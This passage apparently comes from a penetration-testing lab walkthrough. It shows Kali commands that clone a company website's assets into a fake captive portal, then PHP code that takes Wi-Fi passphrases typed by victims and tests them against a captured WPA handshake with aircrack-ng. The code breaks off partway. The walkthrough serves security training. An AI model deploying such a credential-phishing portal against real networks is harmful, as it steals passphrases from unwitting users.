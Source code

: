 Copying the assets and old-site directories since they contain the CSS and the background image:

```bash
kali@kali:~$ sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/

kali@kali:~$ sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```

Creating the Captive Portal login check page:

{% code overflow="wrap" %}
```php
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
if ($retval == 0) {
	foreach($output as $line) {
```